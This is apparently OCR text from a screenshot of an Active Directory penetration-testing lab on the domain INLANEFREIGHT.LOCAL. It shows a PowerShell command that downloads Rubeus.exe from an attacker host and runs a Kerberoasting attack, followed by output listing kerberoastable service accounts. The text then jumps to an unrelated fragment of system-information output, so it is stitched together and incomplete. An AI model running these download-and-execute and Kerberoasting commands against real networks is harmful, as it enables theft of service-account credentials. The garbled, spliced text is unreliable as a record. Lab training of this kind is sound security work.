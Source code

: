 OutboundConnections : {}

Name : DC01.INLANEFREIGHT.LOCAL

Partitions : {DC=INLANEFREIGHT,DC=LOCAL, CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL,

CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL,

DC=DomainDnsZones,DC=INLANEFREIGHT,DC=LOCAL...}

​

PS C:\> (New-Object Net.WebClient).DownloadFile('http://10.10.15.123:8000/Rubeus.exe','C:\Rubeus.exe')

PS C:\> .\Rubeus.exe kerberoast /nowrap

______ _

(_____ \ | |

_____) )_ _| |__ _____ _ _ ___

| __ /| | | | _ \| ___ | | | |/___)

| | \ \| |_| | |_) ) ____| |_| |___ |

|_| |_|____/|____/|_____)____/(___/

​

v2.0.2

​

[*] Action: Kerberoasting

​

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.

[*] Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

​

[*] Target Domain : INLANEFREIGHT.LOCAL

[*] Searching path 'LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

​

[*] Total kerberoastable users : 7

​

[*] SamAccountName : azureconnect

[*] DistinguishedName : CN=azureconnect,CN=Users,DC=INLANEFREIGHT,DC=LOCAL

[*] ServicePrincipalName : adfsconnect/azure01.inlanefreight.local


[01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
[01]: KB4578966
[02]: KB4464455
[01]: vmxnet3 Ethernet Adapter
[01]: 10.129.139.169
[02]: fe80::208f:25d9:3c7c:d424
[03]: dead:beef::208f:25d9:3c7c:d424
[04]: dead:beef::11
[02]: vmxnet3 Ethernet Adapter
[01]: 172.16.6.100
[02]: fe80::f8c8:c134:4fe9:c4b0